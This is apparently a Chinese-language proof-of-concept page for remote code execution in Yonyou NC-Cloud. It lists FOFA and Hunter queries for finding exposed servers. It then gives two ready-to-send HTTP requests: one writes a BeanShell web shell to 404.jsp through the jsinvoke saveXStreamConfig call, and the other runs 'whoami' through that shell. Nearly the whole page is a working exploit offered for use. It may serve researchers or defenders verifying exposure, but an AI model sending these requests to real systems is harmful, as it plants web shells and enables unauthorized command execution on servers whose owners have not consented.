


# 用友 NC-Cloud RCE
## 资产搜索
fofa app="用友-NC-Cloud"  
Hunter web.body="uap/rbac"  

## POC
- 第一段:
```POST
POST /uapjs/jsinvoke/?action=invoke HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 247

{"serviceName":"nc.itf.iufo.IBaseSPService","methodName":"saveXStreamConfig","parameterTypes":["java.lang.Object","java.lang.String"],"parameters":["${param.getClass().forName(param.error).newInstance().eval(param.cmd)}","webapps/nc_web/404.jsp"]}
```   
   
执行后有两种结果，一种是404了，另一种是200，经测试这两种回显都是上传成功。
- 第二段:
```POST
POST /404.jsp?error=bsh.Interpreter HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 96

cmd=org.apache.commons.io.IOUtils.toString(Runtime.getRuntime().exec("whoami").getInputStream())
```   

